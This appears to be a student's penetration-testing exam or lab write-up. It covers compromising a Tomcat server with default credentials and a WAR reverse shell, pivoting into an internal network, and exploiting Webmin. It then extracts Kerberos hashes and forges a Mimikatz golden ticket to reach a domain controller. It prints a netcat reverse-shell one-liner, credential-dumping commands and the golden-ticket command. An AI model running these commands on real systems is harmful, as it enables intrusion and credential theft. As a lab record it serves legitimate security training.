 Name: Aldi Satria
IP Target : 172.16.25.0/24
Date: May 2, 2025
Email: aldisatria1996@gmail.com

# 1. Introduction

To establish the connection, we used OpenVPN as the VPN client.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502191706.png)
After successfully connecting, we verified our IP address using the `ifconfig` command and obtained the IP `172.16.250.29`, which we recorded as the attacker's IP address.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200314.png)
# 2. Reconnaisance 
Next, I performed an Nmap scan to identify live hosts within the `172.16.25.0/24` subnet. As previously mentioned, the IP address `172.16.15.1` is out of scope for this exam. The scan revealed only one live host: `172.16.25.2`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502191823.png)
We focused our attention on `172.16.25.2` and performed a service and version detection scan using the command `nmap -sC -sV`. The scan revealed several open ports, including web services on ports `80` and `8180`, and notably, port `8080` running **Apache Tomcat version 5.5**, which could be of interest for further exploitation.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072125.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072154.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072210.png)
# 3. Initial Access
## a. Apache Tomcat
We attempted to access the Apache Tomcat web server by visiting `http://172.16.25.2:8180` and began exploring the web interface. When accessing the **Tomcat Manager**, we encountered basic authentication. I then searched for default Apache Tomcat credentials and found that the credentials `tomcat:tomcat` were valid for this server.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502194243.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200105.png)
After logging in, we discovered a file upload feature. We attempted to upload a JSP reverse shell, which we generated using `msfvenom`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200143.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502201531.png)
Upon uploading the file, the server returned an error, indicating that the upload must be in `.war` format. We then recreated the reverse shell as a `.war` file, uploaded it, and successfully gained a shell on the target system.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502201150.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203000.png)
## b. Linux Shell
Once we had shell access, we checked the `/etc/passwd` file and found two interesting users: `prod-admin` and `msfadmin`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203550.png)
Next, we accessed `/home/prod-admin` and found a text file containing credentials. Initially, we speculated that these might be SSH credentials.
```
Support User Credential:
User : support
Pass : support@123

Prod-admin Credential: 

User: prod-admin
Pass: Pr0d!@#$%
```

![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203805.png)
We tried to SSH into 172.16.25.2 using those credentials, but none of them worked.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502205617.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502210731.png)
We then reconsidered our assumption that the credentials were for SSH and checked for other users in `/etc/passwd`. We tried logging in with the default credentials `msfadmin:msfadmin` (for the `msfadmin` user), and this successfully granted us access.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502210536.png)
While exploring the shell as `msfadmin`, we ran the `ifconfig` command and discovered another network interface connected to an internal network: `10.10.10.0/24`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211042.png)
We used Nmap with the `-Pn` flag to perform a host discovery scan on the internal network. For each live host identified, we checked for open ports. While `10.10.10.1` had no open ports.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502212459.png)
nmap result for 10.10.10.2
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213143.png)
nmap result for 10.10.10.3
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213446.png)
nmap result for 10.10.10.4
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213805.png)
nmap result for 10.10.10.5
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502214254.png)
## c. Network Pivoting
As the next step, we initiated **network pivoting** using **proxychains** to facilitate access to the internal network.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211841.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211954.png)
After configuring `proxychains`, we tested connectivity using the `nc` (netcat) command to confirm the setup. The test was successful.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502212151.png)
## d. 10.10.10.3
When we accessed `http://10.10.10.3:10000`, we found a **webmin login page**, which indicated a potentially valuable target for further exploitation.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502215940.png)
Using `searchsploit`, we found an exploit titled **“Package Update Escape Bypass RCE”**, and we decided to use Metasploit to exploit it.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502221723.png)
We configured the necessary variables in Metasploit and used the credentials found earlier in the `prod-admin` directory (`support:support@123`). The exploit was successful, and we obtained a shell on the internal machine.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502223520.png)
For easier access, we set up an `nc` listener to obtain another reverse shell, and it was successful.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.250.29 5555 >/tmp/f
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224006.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224046.png)
After further exploration, we discovered that `child-admin.keytab` is part of the Kerberos authentication system. Since we could not SCP the `child-admin.keytab` file, we converted it to Base64 and copied the Base64-encoded data to our local machine.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224725.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502230925.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502230944.png)
We used this tool to extract the NTLM hash from the keytab file and successfully obtained the NTLM hash for the `child-admin` user.
https://github.com/sosdave/KeyTabExtract
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502231222.png)
```
dbac2b57a73bb883422658d2aea36967
```

## e. 10.10.10.2
After obtaining the NTLM hash, we used `impacket-psexec` to log into the shell using the hash on 10.10.10.2, as the IP had Kerberos service, and we successfully logged in.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502232758.png)
We used tools from PowerSploit ([https://github.com/PowerShellMafia/PowerSploit.git](https://github.com/PowerShellMafia/PowerSploit.git)) to gather information about the Windows server. We set up a mini web server to retrieve tools from our local machine and imported the `PowerView.ps1` module. We then used commands to obtain the Security Identifier (SID) of the domain.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503003406.png)
```
Get-DomainSID -Domain child.redteam.corp
S-1-5-21-2332039752-785340267-2377082902

Get-DomainSID -Domain redteam.corp
S-1-5-21-1882140339-3759710628-635303199

```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503011259.png)
# 4. Privilege Escalation
To obtain the Kerberos `krbtgt` hash, we executed Mimikatz on the compromised system. Mimikatz was transferred in the same manner as `powerview.ps1` was, using `iwr`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503014200.png)
We ran the command `lsadump::lsa /patch` and successfully obtained the `krbtgt` hash.
```
RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 24dd6646fd7e11b60b6a9508e6fe7e5a
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503014451.png)
With the SID and `krbtgt` hash, we attempted to generate a golden ticket to escalate our privileges to administrator.
```
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-519 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503015733.png)
run this command to know parentDC from the domain and try acces directory
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503021509.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503022013.png)
As our goal in the exam was to access `secret.xml`, we explored the Administrator directory and successfully located it.
```
type \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\secret.xml
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503022043.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503025443.png)
# 5. Conclussion

...


